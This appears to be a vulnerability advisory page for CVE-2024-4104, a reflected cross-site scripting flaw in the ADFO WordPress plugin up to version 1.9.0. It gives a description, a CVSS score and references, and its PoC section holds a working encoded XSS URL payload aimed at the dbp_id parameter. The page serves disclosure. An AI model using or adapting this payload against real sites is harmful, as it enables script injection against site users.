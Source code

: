 ```yaml
---
layout: page
title: CVE-2024-4104
subtitle: ADFO – Custom data in admin dashboard <= 1.9.0 - Reflected Cross-Site Scripting
---
```

## Description
The ADFO – Custom data in admin dashboard plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the 'dbp_id' parameter in all versions up to, and including, 1.9.0 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a user into performing an action such as clicking on a link.

## Severity
 6.1 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.9.0

## PoC :
```
- Open this link
```
[ASSETS]/wp-admin/admin.php?page=admin_form&section=list-sql-edit&dbp_id=1<%2FScript%2F><Img%2FSrc%2FOnError%3Dconfirm%3F.(1337)>
```
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/admin-form/adfo-custom-data-in-admin-dashboard-190-reflected-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4104





